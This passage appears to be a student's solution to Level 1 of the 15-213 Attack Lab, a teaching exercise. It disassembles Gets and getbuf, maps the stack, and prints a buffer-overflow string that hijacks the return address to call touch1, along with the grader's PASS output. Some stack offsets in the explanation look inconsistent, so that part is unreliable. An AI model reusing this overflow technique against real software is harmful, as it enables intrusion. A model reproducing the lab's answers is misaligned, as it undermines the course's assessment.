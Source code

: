 # Solution

## Part I: Code Injection Attacks

### Level 1

Here is the assembly code for *Gets*:

```Assembly
0000000000401a40 <Gets>:
  401a40:	41 54                	push   %r12
  401a42:	55                   	push   %rbp
  401a43:	53                   	push   %rbx
  401a44:	49 89 fc             	mov    %rdi,%r12
  401a47:	c7 05 b3 36 20 00 00 	movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
  401a4e:	00 00 00 
  401a51:	48 89 fb             	mov    %rdi,%rbx
  401a54:	eb 11                	jmp    401a67 <Gets+0x27>
  401a56:	48 8d 6b 01          	lea    0x1(%rbx),%rbp
  401a5a:	88 03                	mov    %al,(%rbx)
  401a5c:	0f b6 f8             	movzbl %al,%edi
  401a5f:	e8 3c ff ff ff       	call   4019a0 <save_char>
  401a64:	48 89 eb             	mov    %rbp,%rbx
  401a67:	48 8b 3d 62 2a 20 00 	mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
  401a6e:	e8 4d f3 ff ff       	call   400dc0 <_IO_getc@plt>
  401a73:	83 f8 ff             	cmp    $0xffffffff,%eax
  401a76:	74 05                	je     401a7d <Gets+0x3d>
  401a78:	83 f8 0a             	cmp    $0xa,%eax
  401a7b:	75 d9                	jne    401a56 <Gets+0x16>
  401a7d:	c6 03 00             	movb   $0x0,(%rbx)
  401a80:	b8 00 00 00 00       	mov    $0x0,%eax
  401a85:	e8 6e ff ff ff       	call   4019f8 <save_term>
  401a8a:	4c 89 e0             	mov    %r12,%rax
  401a8d:	5b                   	pop    %rbx
  401a8e:	5d                   	pop    %rbp
  401a8f:	41 5c                	pop    %r12
  401a91:	c3                   	ret
```

Here is a rough translation to C:

```C
int Gets(char* buf) {
    gets_cnt = 0; // global variable
    for (char c = getchar(); c != -1 && c != '\n'; c = getchar()) {
        *buf = c;
        save_char(c);
        buf += 1;
    }
    *buf = 0;
    save_term();
    return 0;
}
```

This function is called within *getbuf*:

```Assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
  ```

Before the call to *Gets*, it basically prepares a buffer of size 0x28 (40 bytes) on the stack and pass the stack pointer as input to *Gets*.

Here is the stack organization at the point after *call*:

| address     | data        |
|------------ | ----------- |
| %rsp + 0x38 | 0x401971    |
| %rsp + 0x30 |             |
| %rsp + 0x28 |             |
| %rsp + 0x20 |             |
| %rsp + 0x18 |             |
| %rsp + 0x10 |             |
| %rsp + 0x08 |             |
| %rsp        | 0x4017b4    |

Where *%rdi* point to *%rsp + 0x8*, *%rsp* contains the address to the instruction after the call to *Gets* in *getbuf*, and *rsp + 0x38* contains the address to the instructino after the call to *getbuf* in *test*.

Our goal is to replace *%rsp + 0x38* with the address of the *touch1* function (0x4017c0).

To do that, we can simply write 40 arbitrary characters, and then 4 bytes corresponding to the *touch1* address. See [exploit_ctarget_1.txt](exploit_ctarget_1.txt) for the solution to this problem.

Here is the output after running ctarget with the exploit string:

```bash
❯ ./ctarget -q < solution/exploit_ctarget_1_raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 
```

## Level 2
